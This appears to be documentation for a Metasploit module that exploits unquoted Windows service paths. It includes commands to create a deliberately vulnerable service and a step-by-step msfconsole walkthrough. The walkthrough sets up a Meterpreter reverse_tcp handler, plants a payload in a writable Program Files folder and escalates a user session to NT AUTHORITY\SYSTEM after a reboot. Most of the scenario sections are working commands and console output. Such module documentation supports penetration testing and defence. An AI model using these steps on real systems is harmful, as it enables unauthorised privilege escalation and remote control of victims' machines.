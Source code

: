 ## Vulnerable Application

Commonly known as Trusted Service Path, or Unquoted Service path, this exploits a behavior of windows service.  When a service calls an executable, a full path is given.  If the full path contains a space,
Windows will attempt to execute a file up to the space, with `.exe` appended.  If the executable isn't found, it keeps going until the full path or the next space (and repeat).

@sumitvgithub had an excellent write-up on this [here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

As is documented in that write-up, if the executable is C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

Windows will attempt to run the following, in order.

  1.  C:\Program.exe
  2.  C:\Program Files\A.exe
  3.  C:\Program Files\A Subfolder\B.exe
  4.  C:\Program Files\A Subfolder\B Subfolder\C.exe
  5.  C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

To exploit this, we simply need to go in reverse order to see if we're able to write a payload to those locations.  In Win7+ the deeper folders are
more likely to succeed based on default Windows permissions for users.

Then, a service restart is required.  Often a user won't be able to do this, so the payload is left on disk as a reboot or service restart will
trigger the payload to launch.

### Creating a Vulnerable Service

This is sourced from @sumitvgithub's write-up [here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

With an administrator command prompt, execute the following:

```
sc create "Some Vulnerable Service" binpath= "C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe" Displayname= "Vuln Service DP" start= auto
mkdir "C:\Program Files\A Subfolder\B Subfolder\C Subfolder"
icacls "C:\Program Files\A Subfolder" /grant "BUILTIN\Users":W
```

This creates a vulnerable service, with `A Subfolder` being vulnerable to user writes.

## Verification Steps

  1. Start msfconsole
  2. Get a user shell
  3. Do: ```use exploits/windows/local/unquoted_service_path```
  4. Do: ```set session #```
  5. Do: ```run```
  6. You should either get a shell, or need to start a `multi/handler` and have the target restarted.
 
## Options

## Scenarios

### Windows 10 (16299) with Service Listed Above

User Shell:

```
msf5 > handler -p windows/meterpreter/reverse_tcp -H 1.1.1.1 -P 8888
[*] Payload handler running as background job 0.
msf5 > 
[*] Started reverse TCP handler on 1.1.1.1:8888 
[*] Sending stage (180291 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49744) at 2020-04-03 21:32:36 -0400
sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
```

Unquoted Service Path Exploit:

```
msf5 > use unquoted_service_path

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/local/unquoted_service_path  2001-10-25       excellent  Yes    Windows Unquoted Service Path Privilege Escalation


[*] Using exploit/windows/local/unquoted_service_path
msf5 exploit(windows/local/unquoted_service_path) > set session 1
session => 1
msf5 exploit(windows/local/unquoted_service_path) > set verbose true
verbose => true
msf5 exploit(windows/local/unquoted_service_path) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Finding a vulnerable service...
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[*] Found vulnerable service: Some Vulnerable Service - C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe (LocalSystem)
[*] Placing C:\Program Files\A Subfolder\B Subfolder\C.exe for Some Vulnerable Service
[*] Attempting to write 15872 bytes to C:\Program Files\A Subfolder\B Subfolder\C.exe...
[-] Unable to write: core_channel_open: Operation failed: Access is denied.
[*] Placing C:\Program Files\A Subfolder\B.exe for Some Vulnerable Service
[*] Attempting to write 15872 bytes to C:\Program Files\A Subfolder\B.exe...
[+] Manual cleanup of C:\Program Files\A Subfolder\B.exe is required due to a potential reboot for exploitation.
[+] Successfully wrote payload
[*] Launching service Some Vulnerable Service...
[-] [Some Vulnerable Service] Unhandled error: Could not open service. OpenServiceA error: FormatMessage failed to retrieve the error.
[-] Unable to restart service.  System reboot or an admin restarting the service is required.  Payload left on disk!!!
[*] Exploit completed, but no session was created.
```

We weren't able to restart the service.  So we'll kick a `multi/handler` and wait for a reboot.

```
msf5 exploit(windows/local/unquoted_service_path) > handler -p windows/meterpreter/reverse_tcp -H 1.1.1.1 -P 4444
[*] Payload handler running as background job 1.
msf5 exploit(windows/local/unquoted_service_path) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2 - Meterpreter session 1 closed.  Reason: Died
[*] Sending stage (180291 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49706) at 2020-04-03 21:36:54 -0400
sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
